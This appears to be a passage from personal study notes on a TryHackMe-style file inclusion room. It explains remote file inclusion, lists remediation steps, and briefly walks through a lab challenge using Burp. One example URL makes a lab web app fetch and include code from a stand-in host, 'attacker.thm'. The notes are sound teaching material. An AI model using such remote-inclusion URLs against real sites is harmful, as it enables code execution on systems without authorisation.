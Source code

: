 ```php
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as `http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt`. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.


## REMEDIATION

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

  

1. Keep system and services, including web application frameworks, updated with the latest version.  
    
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.  
    
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.  
    
7. Implement whitelisting for file names and locations as well as blacklisting.



# CHALLENGE


## FIRST

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241105181015.png)

We need to go into inspector and change the method from `GET` to `POST`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241105181107.png)

Once we've changed that, send the request to burp and modify the value to POST:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241105181139.png)

Once that is done, we will be able to retrieve the flag:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241105181202.png)
